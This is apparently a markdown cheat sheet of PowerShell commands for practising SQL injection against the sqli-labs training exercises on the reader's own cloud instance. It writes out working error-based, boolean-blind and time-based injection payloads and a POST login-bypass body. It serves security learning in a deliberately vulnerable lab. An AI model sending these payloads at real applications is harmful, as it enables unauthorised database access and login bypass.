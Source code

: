 # PowerShell SQLi Testing Examples

Replace `$ip` with your GCP instance external IP.

```powershell
$ip = "YOUR_EXTERNAL_IP"
```

## Less-1: Error-Based String Injection

### Normal Request
```powershell
iwr "http://$ip/Less-1/?id=1"
```

### Test for Vulnerability
```powershell
# Single quote causes SQL error
iwr "http://$ip/Less-1/?id=1'"

# Confirm with comment
iwr "http://$ip/Less-1/?id=1'--"

# Extract data
iwr "http://$ip/Less-1/?id=1' OR '1'='1"
```

## Less-2: Error-Based Numeric Injection

### Normal Request
```powershell
iwr "http://$ip/Less-2/?id=1"
```

### Test for Vulnerability
```powershell
# Boolean-based
iwr "http://$ip/Less-2/?id=1 AND 1=1"
iwr "http://$ip/Less-2/?id=1 AND 1=2"

# Extract all rows
iwr "http://$ip/Less-2/?id=1 OR 1=1"
```

## Less-3: String with Twist (')

### Test for Vulnerability
```powershell
iwr "http://$ip/Less-3/?id=1'"
iwr "http://$ip/Less-3/?id=1') OR ('1'='1"
```

## Less-4: Double Quotes

### Test for Vulnerability
```powershell
iwr "http://$ip/Less-4/?id=1`""
iwr "http://$ip/Less-4/?id=1`") OR (`"1`"=`"1"
```

## Less-8: Blind Boolean-Based

### Test for Vulnerability
```powershell
# True condition (page loads normally)
iwr "http://$ip/Less-8/?id=1' AND '1'='1"

# False condition (different response)
iwr "http://$ip/Less-8/?id=1' AND '1'='2"
```

## POST-Based Example (Less-11)

```powershell
# Normal login
$body = @{
    uname = "admin"
    passwd = "password"
}
iwr "http://$ip/Less-11/" -Method POST -Body $body

# SQL Injection
$body = @{
    uname = "admin' OR '1'='1"
    passwd = "anything"
}
iwr "http://$ip/Less-11/" -Method POST -Body $body
```

## Useful PowerShell Tips

### View Response Content
```powershell
$response = iwr "http://$ip/Less-1/?id=1"
$response.Content
```

### View Status Code
```powershell
$response.StatusCode
```

### Measure Response Time (Blind Time-Based)
```powershell
Measure-Command { iwr "http://$ip/Less-9/?id=1' AND SLEEP(5)--" }
```

### Save Response to File
```powershell
iwr "http://$ip/Less-1/?id=1" -OutFile response.html
```

## URL Encoding in PowerShell

```powershell
# PowerShell handles most encoding automatically, but for special chars:
[System.Web.HttpUtility]::UrlEncode("1' OR '1'='1")

# Or use backtick for escaping in double quotes
iwr "http://$ip/Less-1/?id=1`' OR `'1`'=`'1"
```
